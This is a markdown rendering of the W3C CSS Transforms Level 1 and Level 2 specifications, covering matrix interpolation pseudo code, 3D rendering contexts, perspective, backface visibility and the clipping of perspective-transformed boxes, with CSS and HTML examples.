> **Example:** In this example a two-dimensional transform function gets animated to a three-dimensional transform function. The common primitive is `translate3d()`.
>
> ```
> div {
>   transform: translateX(100px);
> }
>
> div:hover {
>   transform: translateZ(100px);
>   transition: transform 3s;
> }
> ```
>
> First `translateX(100px)` gets converted to `translate3d(100px, 0, 0)` and `translateZ(100px)` to `translate3d(0, 0, 100px)` respectively. Then both converted transform functions get interpolated numerically.

### 11. Interpolation of Matrices {#css-transforms-1:matrix-interpolation}

When interpolating between two matrices, each matrix is decomposed into the corresponding translation, rotation, scale, skew. Each corresponding component of the decomposed matrices gets interpolated numerically and recomposed back to a matrix in a final step.

> **Example:** In the following example the element gets translated by 100 pixel in both the X and Y directions and rotated by 1170° on hovering. The initial transformation is 45°. With the usage of transition, an author might expect a animated, clockwise rotation by three and a quarter turns (1170°).
>
> ```
> <style>
> div {
>   transform: rotate(45deg);
> }
> div:hover {
>   transform: translate(100px, 100px) rotate(1215deg);
>   transition: transform 3s;
> }
> </style>
>
> <div></div>
> ```
>
> The number of transform functions on the source transform `rotate(45deg)` differs from the number of transform functions on the destination transform `translate(100px, 100px) rotate(1125deg)`. According to the last rule of [Interpolation of Transforms](#css-transforms-1:interpolation-of-transforms), both transforms must be interpolated by matrix interpolation. With converting the transformation functions to matrices, the information about the three turns gets lost and the element gets rotated by just a quarter turn (90°).
>
> To achieve the three and a quarter turns for the example above, source and destination transforms must fulfill the third rule of [Interpolation of Transforms](#css-transforms-1:interpolation-of-transforms). Source transform could look like `translate(0, 0) rotate(45deg)` for a linear interpolation of the transform functions.

In the following we differ between the [interpolation of two 2D matrices](#css-transforms-1:interpolation-of-2d-matrices) and the interpolation of two matrices where at least one matrix is not a 2D matrix.

If one of the matrices for interpolation is non-invertible, the used animation function must fall-back to a discrete animation according to the rules of the respective animation specification.

#### 11.1. Supporting functions {#css-transforms-1:supporting-functions}

The pseudo code in the next subsections make use of the following supporting functions:

```
Supporting functions (point is a 3 component vector, matrix is a 4x4 matrix, vector is a 4 component vector):
  double  determinant(matrix)          returns the 4x4 determinant of the matrix
  matrix  inverse(matrix)              returns the inverse of the passed matrix
  matrix  transpose(matrix)            returns the transpose of the passed matrix
  point   multVecMatrix(point, matrix) multiplies the passed point by the passed matrix
                                       and returns the transformed point
  double  length(point)                returns the length of the passed vector
  point   normalize(point)             normalizes the length of the passed point to 1
  double  dot(point, point)            returns the dot product of the passed points
  double  sqrt(double)                 returns the root square of passed value
  double  max(double y, double x)      returns the bigger value of the two passed values
  double  dot(vector, vector)         returns the dot product of the passed vectors
  vector  multVector(vector, vector)  multiplies the passed vectors
  double  sqrt(double)                returns the root square of passed value
  double  max(double y, double x)     returns the bigger value of the two passed values
  double  min(double y, double x)     returns the smaller value of the two passed values
  double  cos(double)                 returns the cosines of passed value
  double  sin(double)                 returns the sine of passed value
  double  acos(double)                returns the inverse cosine of passed value
  double  abs(double)                  returns the absolute value of the passed value
  double  rad2deg(double)              transforms a value in radian to degree and returns it
  double  deg2rad(double)              transforms a value in degree to radian and returns it

Decomposition also makes use of the following function:
  point combine(point a, point b, double ascl, double bscl)
      result[0] = (ascl * a[0]) + (bscl * b[0])
      result[1] = (ascl * a[1]) + (bscl * b[1])
      result[2] = (ascl * a[2]) + (bscl * b[2])
      return result
```

#### 11.2. Interpolation of 2D matrices {#css-transforms-1:interpolation-of-2d-matrices}

##### 11.2.1. Decomposing a 2D matrix {#css-transforms-1:decomposing-a-2d-matrix}

The pseudo code below is based upon the "unmatrix" method in "Graphics Gems II, edited by Jim Arvo".

Matrices in the pseudo code use the column-major order. The first index on a matrix entry represents the column and the second index represents the row.

```
Input:  matrix      ; a 4x4 matrix
Output: translation ; a 2 component vector
        scale       ; a 2 component vector
        angle       ; rotation
        m11         ; 1,1 coordinate of 2x2 matrix
        m12         ; 1,2 coordinate of 2x2 matrix
        m21         ; 2,1 coordinate of 2x2 matrix
        m22         ; 2,2 coordinate of 2x2 matrix
Returns false if the matrix cannot be decomposed, true if it can

double row0x = matrix[0][0]
double row0y = matrix[0][1]
double row1x = matrix[1][0]
double row1y = matrix[1][1]

translate[0] = matrix[3][0]
translate[1] = matrix[3][1]

scale[0] = sqrt(row0x * row0x + row0y * row0y)
scale[1] = sqrt(row1x * row1x + row1y * row1y)

// If determinant is negative, one axis was flipped.
double determinant = row0x * row1y - row0y * row1x
if (determinant < 0)
    // Flip axis with minimum unit vector dot product.
    if (row0x < row1y)
        scale[0] = -scale[0]
    else
        scale[1] = -scale[1]

// Renormalize matrix to remove scale.
if (scale[0])
    row0x *= 1 / scale[0]
    row0y *= 1 / scale[0]
if (scale[1])
    row1x *= 1 / scale[1]
    row1y *= 1 / scale[1]

// Compute rotation and renormalize matrix.
angle = atan2(row0y, row0x);

if (angle)
    // Rotate(-angle) = [cos(angle), sin(angle), -sin(angle), cos(angle)]
    //                = [row0x, -row0y, row0y, row0x]
    // Thanks to the normalization above.
    double sn = -row0y
    double cs = row0x
    double m11 = row0x
    double m12 = row0y
    double m21 = row1x
    double m22 = row1y
    row0x = cs * m11 + sn * m21
    row0y = cs * m12 + sn * m22
    row1x = -sn * m11 + cs * m21
    row1y = -sn * m12 + cs * m22

m11 = row0x
m12 = row0y
m21 = row1x
m22 = row1y

// Convert into degrees because our rotation functions expect it.
angle = rad2deg(angle)

return true
```

##### 11.2.2.  Interpolation of decomposed 2D matrix values {#css-transforms-1:interpolation-of-decomposed-2d-matrix-values}

Before two decomposed 2D matrix values can be interpolated, the following

```
Input: translationA ; a 2 component vector
       scaleA       ; a 2 component vector
       angleA       ; rotation
       m11A         ; 1,1 coordinate of 2x2 matrix
       m12A         ; 1,2 coordinate of 2x2 matrix
       m21A         ; 2,1 coordinate of 2x2 matrix
       m22A         ; 2,2 coordinate of 2x2 matrix
       translationB ; a 2 component vector
       scaleB       ; a 2 component vector
       angleB       ; rotation
       m11B         ; 1,1 coordinate of 2x2 matrix
       m12B         ; 1,2 coordinate of 2x2 matrix
       m21B         ; 2,1 coordinate of 2x2 matrix
       m22B         ; 2,2 coordinate of 2x2 matrix

// If x-axis of one is flipped, and y-axis of the other,
// convert to an unflipped rotation.
if ((scaleA[0] < 0 && scaleB[1] < 0) || (scaleA[1] < 0 && scaleB[0] < 0))
    scaleA[0] = -scaleA[0]
    scaleA[1] = -scaleA[1]
    angleA += angleA < 0 ? 180 : -180

// Don't rotate the long way around.
if (!angleA)
    angleA = 360
if (!angleB)
    angleB = 360

if (abs(angleA - angleB) > 180)
    if (angleA > angleB)
        angleA -= 360
    else
        angleB -= 360
```

Afterwards, each component of the decomposed values translation, scale, angle, m11 to m22 of the source matrix get linearly interpolated with each corresponding component of the destination matrix.

##### 11.2.3. Recomposing to a 2D matrix {#css-transforms-1:recomposing-to-a-2d-matrix}

After interpolation, the resulting values are used to transform the elements user space. One way to use these values is to recompose them into a 4x4 matrix. This can be done following the pseudo code below.

Matrices in the pseudo code use the column-major order. The first index on a matrix entry represents the column and the second index represents the row.

```
Input:  translation ; a 2 component vector
        scale       ; a 2 component vector
        angle       ; rotation
        m11         ; 1,1 coordinate of 2x2 matrix
        m12         ; 1,2 coordinate of 2x2 matrix
        m21         ; 2,1 coordinate of 2x2 matrix
        m22         ; 2,2 coordinate of 2x2 matrix
Output: matrix      ; a 4x4 matrix initialized to identity matrix

matrix[0][0] = m11
matrix[0][1] = m12
matrix[1][0] = m21
matrix[1][1] = m22

// Translate matrix.
matrix[3][0] = translate[0] * m11 + translate[1] * m21
matrix[3][1] = translate[0] * m12 + translate[1] * m22

// Rotate matrix.
angle = deg2rad(angle);
double cosAngle = cos(angle);
double sinAngle = sin(angle);

// New temporary, identity initialized, 4x4 matrix rotateMatrix
rotateMatrix[0][0] = cosAngle
rotateMatrix[0][1] = sinAngle
rotateMatrix[1][0] = -sinAngle
rotateMatrix[1][1] = cosAngle

matrix = post-multiply(rotateMatrix, matrix)

// Scale matrix.
matrix[0][0] *= scale[0]
matrix[0][1] *= scale[0]
matrix[1][0] *= scale[1]
matrix[1][1] *= scale[1]
```

### 12. Mathematical Description of Transform Functions {#css-transforms-1:mathematical-description}

Mathematically, all transform functions can be represented as 4x4 transformation matrices of the following form:


One translation unit on a matrix is equivalent to 1 pixel in the local coordinate system of the element.

- A 2D 3x2 matrix with six parameters *a*, *b*, *c*, *d*, *e* and *f* is equivalent to the matrix:

  
- A 2D translation with the parameters *tx* and *ty* is equivalent to a 3D translation where *tz* has zero as a value.

  
- A 2D scaling with the parameters *sx* and *sy* is equivalent to a 3D scale where *sz* has one as a value.

  
- A 2D rotation with the parameter *alpha* is equivalent to a 3D rotation with the vector [x,y,z] where *x* has zero as a value, *y* has zero as a value, *z* has one as a value, and the parameter *alpha*.

  

  where:

  
- A 2D skew like transformation with the parameters *alpha* and *beta* is equivalent to the matrix:

  
- A 2D skew transformation along the X axis with the parameter *alpha* is equivalent to the matrix:

  
- A 2D skew transformation along the Y axis with the parameter *beta* is equivalent to the matrix:

  

---

## CSS Transforms Module Level 2 {#css-transforms-2}

- **Shortname:** `css-transforms-2`
- **Editor's Draft:** [https://drafts.csswg.org/css-transforms-2/](https://drafts.csswg.org/css-transforms-2/)
- **Published TR:** [https://www.w3.org/TR/css-transforms-2/](https://www.w3.org/TR/css-transforms-2/)
- **W3C Status:** ED (exploring)
- **Last Edited:** 2025-11-30
- **Diff Specification Over:** [CSS Transforms Module Level 1 (`css-transforms-1`)](#css-transforms-1)

### 1. Introduction {#css-transforms-2:intro}

This specification is a delta spec that extends [css-transforms-1] to allow authors to transform elements in three-dimensional space. New transform functions for the `transform` property allow three-dimensional transforms, and additional properties make working with three-dimensional transforms easier, and allow the author to control how nested three-dimensional transformed elements interact.

1. The `perspective` property allows the author to provide child elements with an extra perspective transformation. The `perspective-origin` property provides control over the origin at which perspective is applied, effectively changing the location of the "vanishing point".
2. The `transform-style` property allows 3D-transformed elements and their 3D-transformed descendants to share a common three-dimensional space, allowing the construction of hierarchies of three-dimensional objects.
3. The `backface-visibility` property comes into play when an element is flipped around via three-dimensional transforms such that its reverse side is visible to the viewer. In some situations it is desirable to hide the element in this situation, which is possible using the value of `hidden` for this property.

> **Note:** While some values of the `transform` property allow an element to be transformed in a three-dimensional coordinate system, the elements themselves are not three-dimensional objects. Instead, they exist on a two-dimensional plane (a flat surface) and have no depth.

This specification also adds three convenience properties, `scale`, `translate` and `rotate`, that make it easier to describe and animate simple transforms.

#### 1.1. Module Interactions {#css-transforms-2:module-interactions}

The 3D transform functions here extend the set of functions for the `transform` property.

Some values of `perspective`, `transform-style` and `backface-visibility` result in the creation of a containing block for all descendants, and/or the creation of a stacking context.

Three-dimensional transforms affect the visual layering of elements, and thus override the back-to-front painting order described in [Appendix E](#css2) of [CSS21].

#### 1.2. Value Definitions {#css-transforms-2:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS21] using the [value definition syntax](#css-values-4:value-defs) from [CSS-VALUES-3]. Value types not defined in this specification are defined in CSS Values & Units [CSS-VALUES-3]. Combination with other CSS modules may expand the definitions of these value types.

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the CSS-wide keywords as their property value. For readability they have not been repeated explicitly.

### 2. Terminology {#css-transforms-2:terminology}

****3D transformed element****

: An element whose computed value for the `transform` property includes one of the 3D transform functions

****3D matrix****

: A 4x4 matrix which does not fulfill the requirements of an 2D matrix.

****identity transform function****

: In addition to the identity transform function in CSS Transforms, examples for identity transform functions include `translate3d(0, 0, 0)`, `translateZ(0)`, `scaleZ(1)`, `rotate3d(1, 1, 1, 0)`, `rotateX(0)`, `rotateY(0)`, `rotateZ(0)` and `matrix3d(1, 0, 0, 0, 0, 1, 0, 0, 0, 0, 1, 0, 0, 0, 0, 1)`. A special case is perspective: `perspective(none)`. The value of m34 becomes infinitesimal small and the transform function is therefore assumed to be equal to the identity matrix.

****perspective matrix****

: A matrix computed from the values of the `perspective` and `perspective-origin` properties as described [below](#css-transforms-2:perspective-matrix-computation).

****accumulated 3D transformation matrix****

: A matrix computed for an element relative to the root of its 3D rendering context, as described [below](#css-transforms-2:accumulated-3d-transformation-matrix-computation).

****3D rendering context****

: A set of elements with a common ancestor which share a common three-dimensional coordinate system, as described [below](#css-transforms-2:3d-rendering-contexts).

#### 2.1. Resolved value of `transform` {#css-transforms-2:serialization-of-the-computed-value}

The `transform` property is a resolved value special case property. [CSSOM]

When the computed value is a `<transform-list>`, the resolved value is one `<matrix()>` function or one `<matrix3d()>` function computed by the following algorithm:

1. Let *transform* be a 4x4 matrix initialized to the identity matrix. The elements *m11*, *m22*, *m33* and *m44* of *transform* must be set to `1`; all other elements of *transform* must be set to `0`.
2. Post-multiply all `<transform-function>`s in `<transform-list>` to *transform*.
3. Chose between `<matrix()>` or `<matrix3d()>` serialization:

   **If *transform* is a 2D matrix**

   : Serialize *transform* to a `<matrix()>` function.

   **Otherwise**

   : Serialize *transform* to a `<matrix3d()>` function.

For other computed values, the resolved value is the computed value.

### 3. Two Dimensional Subset {#css-transforms-2:two-dimensional-subset}

UAs may not always be able to render three-dimensional transforms and then just support a two-dimensional subset of this specification. In this case [three-dimensional transforms](#css-transforms-2:three-d-transform-functions) and the properties `transform-style`, `perspective`, `perspective-origin` and `backface-visibility` must not be supported. Section [3D Transform Rendering](#css-transforms-2:3d-transform-rendering) does not apply. Matrix decomposing uses the technique taken from the "unmatrix" method in "Graphics Gems II, edited by Jim Arvo", simplified for the 2D case. Section [Mathematical Description of Transform Functions](#css-transforms-2:mathematical-description) is still effective but can be reduced by using a 3x3 transformation matrix where *a* equals m11, *b* equals m12, *c* equals m21, *d* equals m22, *e* equals m41 and *f* equals m42 (see A 2D 3x2 matrix with six parameter).

$$\begin{bmatrix} a & c & e \\ b & d & f \\ 0 & 0 & 1 \end{bmatrix}$$

3x3 matrix for two-dimensional transformations.

> **Example:** Authors can easily provide a fallback if UAs do not provide support for three-dimensional transforms. The following example has two property definitions for `transform`. The first one consists of two two-dimensional transform functions. The second one has a two-dimensional and a three-dimensional transform function.
>
> ```
> div {
>   transform: scale(2) rotate(45deg);
>   transform: scale(2) rotate3d(0, 0, 1, 45deg);
> }
> ```
>
> With 3D support, the second definition will override the first one. Without 3D support, the second definition is invalid and a UA falls back to the first definition.

### 4. The Transform Rendering Model {#css-transforms-2:transform-rendering}

This specification extends [CSS Transforms 1 § 2 The Transform Rendering Model](#css-transforms-1:transform-rendering) to account for the existence of three-dimensional transform functions, the Z value of `transform-origin`, the `perspective` property, and a new 3D rendering model that applies when the used value of the `transform-style` property is `preserve-3d`.

Three-dimensional transform functions conceptually extend the coordinate space into three dimensions, adding a Z axis perpendicular to the plane of the screen, that increases towards the viewer.


Demonstration of the initial coordinate space.

#### 4.1. 3D Transform Rendering {#css-transforms-2:3d-transform-rendering}

Normally, elements render as flat planes, and are rendered into the same plane as their stacking context. Often this is the plane shared by the rest of the page. Two-dimensional transform functions can alter the appearance of an element, but that element is still rendered into the same plane as its stacking context.

An element with a three-dimensional transform that is not contained in a 3D rendering context renders with the appropriate transform applied, but does not intersect with any other elements. The three-dimensional transform in this case can be considered just as a painting effect, like two-dimensional transforms. Similarly, the transform does not affect painting order. For example, a transform with a positive Z translation may make an element look larger, but does not cause that element to render in front of elements with no translation in Z.

> **Issue:** describe how nested 3d-transformed elements render (perhaps with math)

> **Example:** > **Issue:** This example doesn’t follow from the previous text.
>
> This example shows the effect of three-dimensional transform applied to an element.
>
> ```
> <style>
> div {
>     height: 150px;
>     width: 150px;
> }
> .container {
>     border: 1px solid black;
> }
> .transformed {
>     transform: rotateY(50deg);
> }
> </style>
>
> <div class="container">
>     <div class="transformed"></div>
> </div>
> ```
>
> 
>
> The transform is a 50° rotation about the vertical, Y axis. Note how this makes the blue box appear narrower, but not three-dimensional.

##### 4.1.1. Perspective {#css-transforms-2:perspective}

Perspective can be used to add a feeling of depth to a scene by making elements higher on the Z axis (closer to the viewer) appear larger, and those further away appear smaller. The scaling is proportional to *d*/(*d* − *Z*) where *d*, the value of `perspective`, is the distance from the drawing plane to the assumed position of the viewer’s eye.

The appearance of perspective can be applied to a 3d-transformed element in two ways. First, the element’s 'transform function list' can contain the `perspective()` function which computes into the element’s 'current transformation matrix'.

Second, the `perspective` and `perspective-origin` properties can be applied to an element to influence the rendering of its 3d-transformed children, giving them a shared perspective that provides the impression of them living in the same three-dimensional scene.


Diagrams showing how scaling depends on the `perspective` property and Z position. In the top diagram, *Z* is half of *d*. In order to make it appear that the original circle (solid outline) appears at *Z* (dashed circle), the circle is scaled up by a factor of two, resulting in the light blue circle. In the bottom diagram, the circle is scaled down by a factor of one-third to make it appear behind the original position.

Normally the assumed position of the viewer’s eye is centered on a drawing. This position can be moved if desired – for example, if a web page contains multiple drawings that should share a common perspective – by setting `perspective-origin`.


Diagram showing the effect of moving the perspective origin upward.

The perspective matrix is computed as follows:

1. Start with the identity matrix.
2. Translate by the computed X and Y values of `perspective-origin`
3. Multiply by the matrix that would be obtained from the `perspective()` transform function, where the length is provided by the value of the `perspective` property
4. Translate by the negated computed X and Y values of `perspective-origin`

> **Example:** This example shows how perspective can be used to cause three-dimensional transforms to appear more realistic.
>
> ```
> <style>
> div {
>   height: 150px;
>   width: 150px;
> }
> .container {
>   perspective: 500px;
>   border: 1px solid black;
> }
> .transformed {
>   transform: rotateY(50deg);
> }
> </style>
>
> <div class="container">
>   <div class="transformed"></div>
> </div>
> ```
>
> 
>
> The inner element has the same transform as in the previous example, but its rendering is now influenced by the perspective property on its parent element. Perspective causes vertices that have positive Z coordinates (closer to the viewer) to be scaled up in X and Y, and those further away (negative Z coordinates) to be scaled down, giving an appearance of depth.

##### 4.1.2. 3D Rendering Contexts {#css-transforms-2:3d-rendering-contexts}

This section specifies the rendering model for content that uses 3D-transforms and the `transform-style` property. In order to describe this model, we introduce the concept of a "3D rendering context".

A 3D rendering context is a set of elements rooted in a common ancestor that, for the purposes of 3D-transform rendering, are considered to share a common three-dimensional coordinate system. The front-to-back rendering of elements in the a 3D rendering context depends on their z-position in that three-dimensional space, and, if the 3D transforms on those elements cause them to intersect, then they are rendered with intersection.

The position of each element in that three-dimensional space is determined by accumulating the transformation matrices up from the given element to the element that establishes the 3D rendering context.

Elements establish and participate in 3D rendering contexts as follows:

- A 3D rendering context is established by a transformable element whose used value for `transform-style` is `preserve-3d` and which itself is not part of a 3D rendering context. An element that establishes a 3D rendering context also participates in that context.
- An element whose used value for `transform-style` is `preserve-3d` and which itself participates in a 3D rendering context, extends that 3D rendering context rather than establishing a new one.
- An element participates in a 3D rendering context if its parent establishes or extends a 3D rendering context.

Some CSS properties have values that are considered to force "grouping": they require that their element and its descendants are rendered as a group before being composited with other elements; these include opacity, filters and properties that affect clipping. The relevant property values are listed under [grouping property values](#css-transforms-2:grouping-property-values). Consequently, when used on an element with transform-style:preserve-3d, they change the used value to `flat` and prevent it from creating or extending a 3D rendering context.

In a 3D rendering context, rendering and sorting of elements is done as follows:

1. The element establishing the 3D rendering context, and each other 3D transformed element participating in the 3D rendering context, is rendered into its own plane. This plane includes the element’s backgrounds, borders, other box decorations, content, and descendant elements, excluding any descendant elements that have their own plane (and their descendants). This rendering is done according to [CSS 2.1, Appendix E, Section E.2 Painting Order](#css2:painting-order).
2. Intersection is performed between this set of planes, according to [Newell’s algorithm](https://en.wikipedia.org/wiki/Newell%27s_algorithm), with the planes transformed by the accumulated 3D transformation matrix. Coplanar 3D transformed elements are rendered in painting order.

> **Issue:** is it OK to not pop 2D-transformed elements into their own planes?

> **Note:** This specification previously defined that the background, borders, and other box decorations of the establishing element were rendered behind the entire 3D scene. This was changed in [#6238](https://github.com/w3c/csswg-drafts/issues/6238). However, if the definition of 3D Rendering Contexts is changed in the future, it may be worth considering changing back.

Note that elements with transforms which have a negative z-component will render behind the content and untransformed descendants of the establishing element, and that 3D transformed elements may interpenetrate with content and untransformed elements.

> **Note:** Because the 3D-transformed elements in a 3D rendering context can all depth-sort and intersect with each other, they are effectively rendered as if they were siblings. The effect of transform-style: preserve-3d can then be thought of as causing all the 3D transformed elements in a 3D rendering context to be hoisted up into the establishing element, but still rendered with their [accumulated 3D transformation matrix](#css-transforms-2:accumulated-3d-transformation-matrix-computation).

> **Example:** ```
> <style>
> div {
>   height: 150px;
>   width: 150px;
> }
> .scene {
>   background-color: rgba(0, 0, 0, 0.3);
>   border: 1px solid black;
>   perspective: 500px;
> }
> .container {
>   transform-style: preserve-3d;
> }
> .container > div {
>   position: absolute;
>   left: 0;
> }
> .container > :first-child {
>   transform: rotateY(45deg);
>   background-color: orange;
>   top: 10px;
>   height: 135px;
> }
> .container > :last-child {
>   transform: translateZ(40px);
>   background-color: rgba(0, 0, 255, 0.6);
>   top: 50px;
>   height: 100px;
> }
> </style>
>
> <div class="scene">
>   <div class="container">
>     Lorem ipsum dolor sit amet, consectetaur adipisicing elit…
>     <div></div>
>     <div></div>
>   </div>
> </div>
> ```
>
> This example shows show elements in a 3D rendering context can intersect. The container element establishes a 3D rendering context for itself and its two children, and the scene element adds perspective to the 3D rendering context. The children intersect with each other, and the orange element also intersects with the container.
>
> 

> **Example:** ```
> <style>
> div {
>   height: 150px;
>   width: 150px;
> }
> .container {
>   perspective: 500px;
>   border: 1px solid black;
> }
> .transformed {
>   transform: rotateY(50deg);
>   background-color: blue;
> }
> .child {
>   transform-origin: top left;
>   transform: rotateX(40deg);
>   background-color: lime;
> }
> </style>
>
> <div class="container">
>   <div class="transformed">
>     <div class="child"></div>
>   </div>
> </div>
> ```
>
> This example shows how nested 3D transforms are rendered. The blue div is transformed as in the previous example, with its rendering influenced by the perspective on its parent element. The lime element also has a 3D transform, which is a rotation about the X axis (anchored at the top, by virtue of the transform-origin). However, the lime element is being rendered into the plane of its parent because it is not a member of the same 3D rendering context. Thus the lime element only appears shorter; it does not "pop out" of the blue element.
>
> 

##### 4.1.3. Transformed element hierarchies {#css-transforms-2:transformed-element-hierarchies}

By default, transformed elements do not create a 3D rendering context and create a flattened representation of their content. However, since it is useful to construct hierarchies of transformed objects that share a common 3-dimensional space, this flattening behavior may be overridden by specifying a value of `preserve-3d` for the `transform-style` property. This allows descendants of the transformed element to share the same 3D rendering context. Non-3D-transformed descendants of such elements are rendered into the plane of the element in step C above, but 3D-transformed elements in the same 3D rendering context will "pop out" into their own planes.

> **Example:** ```
> <style>
> div {
>   height: 150px;
>   width: 150px;
> }
> .container {
>   perspective: 500px;
>   border: 1px solid black;
> }
> .transformed {
>   transform-style: preserve-3d;
>   transform: rotateY(50deg);
>   background-color: blue;
> }
> .child {
>   transform-origin: top left;
>   transform: rotateX(40deg);
>   background-color: lime;
> }
> </style>
> ```
>
> This example is identical to the previous example, with the addition of `transform-style: preserve-3d` on the blue element. The blue element now extends the 3D rendering context of its container. Now both blue and lime elements share a common three-dimensional space, so the lime element renders as tilting out from its parent, influenced by the perspective on the container.
>
> 

##### 4.1.4. Accumulated 3D Transformation Matrix Computation {#css-transforms-2:accumulated-3d-transformation-matrix-computation}

The final value of the transform used to render an element in a 3D rendering context is computed by accumulating an accumulated 3D transformation matrix as follows:

1. Let *transform* be the identity matrix.
2. Let *current element* be the transformed element.
3. Let *parent element* be the parent element of the transformed element.
4. While *current element* is an element in the transformed element’s 3D rendering context:

  1. If *current element* has a value for `transform` which is not `none`, pre-multiply *current element*’s transformation matrix with the *transform*.
  2. Compute a translation matrix which represents the offset (including the scroll offset) of *current element* from its *parent element*, and pre-multiply that matrix into the *transform*.
  3. If *parent element* has a value for `perspective` which is not `none`, pre-multiply the *parent element*’s perspective matrix into the *transform*.
  4. Let *current element* be the *parent element*.
  5. Let *parent element* be the *current element*’s parent.

> **Note:** as described here, the accumulated 3D transformation matrix takes into account offsets (including the scroll offset) generated by the [visual formatting model](#css2) on the transformed element, and elements in its ancestor chain up to and including the element that establishes the its 3D rendering context.

##### 4.1.5. Backface Visibility {#css-transforms-2:backface-visibility}

Using three-dimensional transforms, it’s possible to transform an element such that its reverse side is visible. 3D-transformed elements show the same content on both sides, so the reverse side looks like a mirror-image of the front side (as if the element were projected onto a sheet of glass). Normally, elements whose reverse side is towards the viewer remain visible. However, the `backface-visibility` property allows the author to make an element invisible when its reverse side is towards the viewer. This behavior is "live"; if an element with `backface-visibility: hidden` were animating, such that its front and reverse sides were alternately visible, then it would only be visible when the front side were towards the viewer.

Visibility of the reverse side of an element is considered using the accumulated 3D transformation matrix, and is thus relative to the parent of the element that establishes the 3D rendering context.

> **Note:** This property is useful when you place two elements back-to-back, as you would to create a playing card. Without this property, the front and back elements could switch places at times during an animation to flip the card. Another example is creating a box out of 6 elements, but where you want to see only the inside faces of the box.

> **Example:** This example shows how to make a "card" element that flips over when clicked. Note the "transform-style: preserve-3d" on #card which is necessary to avoid flattening when flipped.
>
> ```
> <style>
> .body { perspective: 500px; }
> #card {
>   position: relative;
>   height: 300px; width: 200px;
>   transition: transform 1s;
>   transform-style: preserve-3d;
> }
> #card.flipped {
>   transform: rotateY(180deg);
> }
> .face {
>   position: absolute;
>   top: 0; left: 0;
>   width: 100%; height: 100%;
>   background-color: silver;
>   border-radius: 40px;
>   backface-visibility: hidden;
> }
> .back {
>   transform: rotateY(180deg);
> }
> </style>
> <div id="card" onclick="this.classList.toggle('flipped')">
>   <div class="front face">Front</div>
>   <div class="back face">Back</div>
> </div>
> ```

> **Issue:** what is the impact of backface-visibility on non-transformed or 2D-transformed elements? Do they get popped into their own planes and intersect?

#### 4.2. Processing of Perspective-Transformed Boxes {#css-transforms-2:processing-of-perspective-transformed-boxes}

> **Issue:** This is a first pass at an attempt to precisely specify how exactly to transform elements using the provided matrices. It might not be ideal, and implementer feedback is encouraged. See [#912](https://github.com/w3c/csswg-drafts/issues/912).

The accumulated 3D transformation matrix is affected both by the `perspective` property, and by any perspective() transform function present in the value of the `transform` property.

This accumulated 3D transformation matrix is a 4×4 matrix, while the objects to be transformed are two-dimensional boxes. To transform each corner (*a*, *b*) of a box, the matrix must first be applied to (*a*, *b*, 0, 1), which will result in a four-dimensional point (*x*, *y*, *z*, *w*). This is transformed back to a three-dimensional point (*x*′, *y*′, *z*′) as follows:

If *w* > 0, (*x*′, *y*′, *z*′) = (*x*/*w*, *y*/*w*, *z*/*w*).

If *w* = 0, (*x*′, *y*′, *z*′) = (*x* ⋅ *n*, *y* ⋅ *n*, *z* ⋅ *n*). *n* is an implementation-dependent value that should be chosen so that *x*′ or *y*′ is much larger than the viewport size, if possible. For example, (5px, 22px, 0px, 0) might become (5000px, 22000px, 0px), with *n* = 1000, but this value of *n* would be too small for (0.1px, 0.05px, 0px, 0). This specification does not define the value of *n* exactly. Conceptually, (*x*′, *y*′, *z*′) is [infinitely far](https://en.wikipedia.org/wiki/Plane_at_infinity) in the direction (*x*, *y*, *z*).

If *w* < 0 for all four corners of the transformed box, the box is not rendered.

If *w* < 0 for one to three corners of the transformed box, the box must be replaced by a polygon that has any parts with *w* < 0 cut out. This will in general be a polygon with three to five vertices, of which exactly two will have *w* = 0 and the rest *w* > 0. These vertices are then transformed to three-dimensional points using the rules just stated. Conceptually, a point with *w* < 0 is "behind" the viewer, so should not be visible.

> **Example:** ```
> .transformed {
>   height: 100px;
>   width: 100px;
>   background: lime;
>   transform: perspective(50px) translateZ(100px);
> }
> ```
>
> All of the box’s corners have *z*-coordinates greater than the perspective. This means that the box is behind the viewer and will not display. Mathematically, the point (*x*, *y*) first becomes (*x*, *y*, 0, 1), then is translated to (*x*, *y*, 100, 1), and then applying the perspective results in (*x*, *y*, 100, −1). The *w*-coordinate is negative, so it does not display. An implementation that doesn’t handle the *w* < 0 case separately might incorrectly display this point as (−*x*, −*y*, −100), dividing by −1 and mirroring the box.

> **Example:** ```
> .transformed {
>   height: 100px;
>   width: 100px;
>   background: radial-gradient(yellow, blue);
>   transform: perspective(50px) translateZ(50px);
> }
> ```
>
> Here, the box is translated upward so that it sits at the same place the viewer is looking from. This is like bringing the box closer and closer to one’s eye until it fills the entire field of vision. Since the default transform-origin is at the center of the box, which is yellow, the screen will be filled with yellow.
>
> Mathematically, the point (*x*, *y*) first becomes (*x*, *y*, 0, 1), then is translated to (*x*, *y*, 50, 1), then becomes (*x*, *y*, 50, 0) after applying perspective. Relative to the transform-origin at the center, the upper-left corner was (−50, −50), so it becomes (−50, −50, 50, 0). This is transformed to something very far to the upper left, such as (−5000, −5000, 5000). Likewise the other corners are sent very far away. The radial gradient is stretched over the whole box, now enormous, so the part that’s visible without scrolling should be the color of the middle pixel: yellow. However, since the box is not actually infinite, the user can still scroll to the edges to see the blue parts.

> **Example:** ```
> .transformed {
>   height: 50px;
>   width: 50px;
>   background: lime;
>   border: 25px solid blue;
>   transform-origin: left;
>   transform: perspective(50px) rotateY(-45deg);
> }
> ```
>
> The box will be rotated toward the viewer, with the left edge staying fixed while the right edge swings closer. The right edge will be at about *z* = `70.7px`, which is closer than the perspective of `50px`. Therefore, the rightmost edge will vanish ("behind" the viewer), and the visible part will stretch out infinitely far to the right.
>
> Mathematically, the top right vertex of the box was originally (100, −50), relative to the transform-origin. It is first expanded to (100, −50, 0, 1). After applying the transform specified, this will get mapped to about (70.71, −50, 70.71, −0.4142). This has *w* = −0.4142 < 0, so we need to slice away the part of the box with *w* < 0. This results in the new top-right vertex being (50, −50, 50, 0). This is then mapped to some faraway point in the same direction, such as (5000, −5000, 5000), which is up and to the right from the transform-origin. Something similar is done to the lower right corner, which gets mapped far down and to the right. The resulting box stretches far past the edge of the screen.
>
> Again, the rendered box is still finite, so the user can scroll to see the whole thing if they choose. However, the right part has been chopped off. No matter how far the user scrolls, the rightmost `30px` or so of the original box will not be visible. The blue border was only `25px` wide, so it will be visible on the left, top, and bottom, but not the right.
>
